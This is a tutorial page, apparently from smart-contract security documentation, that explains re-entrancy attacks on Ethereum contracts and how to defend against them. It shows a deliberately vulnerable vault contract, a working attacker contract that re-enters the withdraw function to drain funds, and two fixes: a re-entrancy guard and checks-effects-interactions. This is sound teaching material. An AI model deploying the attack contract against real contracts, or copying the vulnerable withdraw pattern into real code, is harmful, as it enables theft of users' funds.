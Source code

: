 ```yaml
---
displayed_sidebar: generalSidebar
---
```


# Re-entrancy Attacks

One of the most prevalent vulnerabilities in Ethereum smart contracts is the re-entrancy attack. This type of attack may occur when a contract makes external calls before ensuring that its state is correctly updated. Attackers can exploit this by making the vulnerable contract invoke an attacker-controlled contract, which then re-invokes the original contract repeatedly. This repeated invocation can manipulate the contract's state before it's correctly updated, leading to potential loss of funds.

Consider a simplified `FinancialVault` contract that allows depositing and withdrawing ETH, analogous to a bank account:

```solidity
contract FinancialVault {
    mapping(address => uint256) public balances;

    function depositFunds() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawFunds() external {
        uint256 fundsToWithdraw = balances[msg.sender];
        require(fundsToWithdraw > 0, "No funds available");
        
        (bool sent, ) = msg.sender.call{value: fundsToWithdraw}("");
        require(sent, "Failed to send funds");
        
        balances[msg.sender] = 0;
    }

    function getVaultBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

In this contract, the `withdrawFunds` method is vulnerable to re-entrancy attacks. An attacker can exploit this by using a contract designed to re-enter the `FinancialVault` contract during a withdrawal:

```solidity
contract AttackVault {
    FinancialVault public vault;

    constructor(FinancialVault _vault) {
        vault = _vault;
    }

    receive() external payable {
        if (address(vault).balance >= 1 ether) {
            vault.withdrawFunds();
        }
    }

    function initiateAttack() external payable {
        require(msg.value == 1 ether, "1 Ether required for the attack");
        vault.depositFunds{value: 1 ether}();
        vault.withdrawFunds();
    }

    function getContractBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

## Defense Mechanisms

### Re-entrancy Guard

A re-entrancy guard is a simple yet effective strategy to prevent such attacks. It involves setting a flag when a function starts executing and resetting it upon completion. This ensures the function cannot be re-entered while it's still running. The OpenZeppelin library provides an implementation of this pattern. Here is an example of applying a re-entrancy guard to the `withdrawFunds` function:

```solidity
uint256 private _guardCounter = 1;

modifier nonReentrant() {
    require(_guardCounter == 1, "Reentrant call");
    _guardCounter++;
    _;
    _guardCounter--;
}

function withdrawFunds() external nonReentrant {
    uint256 fundsToWithdraw = balances[msg.sender];
    require(fundsToWithdraw > 0, "No funds available");
    
    (bool sent, ) = msg.sender.call{value: fundsToWithdraw}("");
    require(sent, "Failed to send funds");
    
    balances[msg.sender] = 0;
}
```

### Checks-Effects-Interactions Pattern

This pattern dictates that functions should first perform all necessary checks, update the contract's state, and then make any external calls. Adhering to this pattern ensures that all state changes are finalized before interacting with external contracts.

Learn more: [Checks Effects Interactions](https://fravoll.github.io/solidity-patterns/checks_effects_interactions.html)

 Implementing this in the `withdrawFunds` function would involve updating the user's balance before attempting to send them their funds:

```solidity
function withdrawFunds() external {
    uint256 fundsToWithdraw = balances[msg.sender];
    require(fundsToWithdraw > 0, "No funds available");
    
    balances[msg.sender] = 0;
    
    (bool sent, ) = msg.sender.call{value: fundsToWithdraw}("");
    require(sent, "Failed to send funds");
}
```

By following these practices, smart contract developers can significantly reduce the risk of re-entrancy attacks and ensure the security of their contracts.
